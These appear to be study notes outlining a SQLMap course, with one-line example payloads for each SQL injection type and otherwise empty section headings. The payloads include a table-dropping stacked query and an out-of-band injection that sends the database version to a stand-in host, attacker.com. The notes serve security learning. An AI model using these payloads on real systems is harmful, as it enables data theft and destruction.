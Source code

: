 # Getting Started

## SQLMap Overview

This section covers how to install sqlmap and the different types of sql injection it allows you to use.

SQLMap covers:
Boolean-based blind SQL Injection
An example of this inject would be 
``` sql
AND 1=1
```

Error-based SQL Injection
An example of this injection would be 
``` sql
AND GTID_SUBSET(@@version,0)
```
This is the second fastest injection

UNION query-based
An example of this injection would be 
``` sql 
UNION ALL SELECT 1,@@version,3
```
This is the fastest and best injection

Stacked queries
An example of this 
``` sql
; DROP TABLE users
```

Time-based blind SQL Injection
Example 
``` sql 
AND 1=IF(2>1,SLEEP(5),0)
```

Inline queries
Example 
``` sql
SELECT (SELECT @@version) from
```

Out-of-band SQL Injection
Example 
``` sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

## Getting Started with SQLMap

## SQLMap Output Description

# Building Attacks

## Running SQLMap on an HTTP Request

## Handling SQLMap Errors

## Attack Tuning

# Database Enumeration

## Database Enumeration

## Advanced Database Enumneration

# Advanced SQLMap Usage

## Bypasswing Web Application Protections

## OS Exploitations

# Skills Assessment

## Skills Assessment
